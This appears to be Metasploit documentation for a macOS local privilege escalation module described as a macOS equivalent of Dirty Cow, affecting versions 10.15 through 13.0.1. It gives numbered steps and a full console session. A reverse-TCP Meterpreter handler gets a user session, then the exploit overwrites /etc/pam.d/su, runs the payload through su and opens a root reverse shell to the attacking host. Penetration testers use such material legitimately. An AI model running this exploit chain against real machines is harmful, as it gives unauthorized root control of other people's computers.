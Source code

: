 ## Vulnerable Application
This vulnerability works against macOS 13.0.1 - 13.0 and macOS 12.6.1 - 10.15. This vulnerability is the
macOS equivalent of the Dirty Cow vulnerability and allows for an unprivileged user to execute code as root.


## Verification Steps
1. Start msfconsole.
1. Do: `use multi/handler`.
1. Set the `RHOST`, `PAYLOAD` options.
1. Do: `run`.
1. Execute the payload on the machine and obtain a user session.
1. Do: `use exploit/osx/local/mac_dirty_cow`
1. Set the `SESSION`, `LHOST`, `LPORT` options.
1. Do: `run`.
1. Receive a shell session as the `root` user.

## Scenarios
### Mac OSX (Venture 13.0)
```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload osx/x64/meterpreter/reverse_tcp
payload => osx/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Transmitting first stager...(214 bytes)
[*] Transmitting second stager...(49152 bytes)
[*] Sending stage (810648 bytes) to 172.16.199.130
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.130:49801) at 2023-02-01 16:10:14 -0500

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/osx/local/mac_dirty_cow
[*] Using exploit/osx/local/mac_dirty_cow
msf6 exploit(osx/local/mac_dirty_cow) > set session 1
session => 1
msf6 exploit(osx/local/mac_dirty_cow) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(osx/local/mac_dirty_cow) > set lport 4446
lport => 4446
msf6 exploit(osx/local/mac_dirty_cow) > run

[*] Started reverse TCP handler on 172.16.199.1:4446
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Writing '/tmp/.wNDx86' (17204 bytes) ...
[*] Writing '/tmp/.TKIGnTw0l' (51392 bytes) ...
[*] Executing exploit '/tmp/.TKIGnTw0l /etc/pam.d/su /tmp/.DfoZanro'
[*] Exploit result:
Testing for 10 seconds...
RO mapping was modified
[*] Running cmd:
echo '/tmp/.wNDx86 & disown' | su
[*] Executing exploit (restoring) '/tmp/.TKIGnTw0l /etc/pam.d/su /tmp/.aclP0u'
[*] Exploit result:
Testing for 10 seconds...
RO mapping was modified
[+] Deleted /tmp/.wNDx86
[+] Deleted /tmp/.aclP0u
[+] Deleted /tmp/.DfoZanro
[+] Deleted /tmp/.TKIGnTw0l
[*] Command shell session 2 opened (172.16.199.1:4446 -> 172.16.199.130:49802) at 2023-02-01 16:10:54 -0500

options
/bin/sh: line 29: options: command not found
id
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae),701(com.apple.sharepoint.group.1)
uname -a
Darwin msfusers-Mac.local 22.0.0 Darwin Kernel Version 22.0.0: Tue May 24 20:31:35 PDT 2022; root:xnu-8792.0.50.111.3~5/RELEASE_X86_64 x86_64
```
